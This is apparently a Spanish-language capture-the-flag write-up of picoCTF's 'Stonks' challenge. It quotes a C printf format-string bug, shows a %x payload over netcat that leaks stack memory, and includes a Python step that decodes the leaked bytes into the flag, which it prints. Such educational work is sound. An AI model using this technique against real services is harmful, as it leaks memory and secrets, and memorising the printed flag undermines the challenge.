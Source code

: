 ## Descripcion

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c) `nc mercury.picoctf.net 59616`

## Pistas

- Okay, maybe I'd believe you if you find my API key.

## Solucion
- Podemos identificar que podemos utilizar el caracter de porcentaje para acceder
``` c
        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);


```


``` bash
┌──(kali㉿kali)-[~/…/CiberSeguridad/notas-hacking/Utils/Actividad18]
└─$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
83a03b0804b00080489c3f7f63d80ffffffff1839e160f7f71110f7f63dc70839f180183a039083a03b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3834313634356562ff97007df7f9eaf8f7f71440899a4e0010f7e00ce9f7f720c0f7f635c0f7f63000ff979548f7df168df7f635c08048ecaff9795540f7f85f09804b000f7f63000f7f63e20ff979588f7f8bd50f7f64890899a4e00f7f63000804b000ff9795888048c86839e160ff979574ff9795888048be9f7f633fc
Portfolio as of Sat May 20 23:52:52 UTC 2023


1 shares of O
6 shares of ZFA
6 shares of PY
79 shares of NDB
48 shares of N
1786 shares of JQOH
Goodbye!


```

- Obteemos como resultado  `ocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿ}`
- Utilizamos python paara ordenar la badera
``` python

Python 3.11.1 (main, Dec 31 2022, 10:23:59) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> x = 'ocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿ}'
>>> for i in range(0,len(x),4):
...     print(x[i+3]+x[i+2]+x[i+1]+x[i],end='')
... 
Traceback (most recent call last):
  File "<stdin>", line 2, in <module>
IndexError: string index out of range
picoCTF{I_l05t_4ll_my_m0n3y_6148be54>>> 


```

## Bandera
picoCTF{I_l05t_4ll_my_m0n3y_6148be54}

## Notas adicionales


## Referencias
https://www.youtube.com/watch?v=ctpQdH-GGqY&t=40s
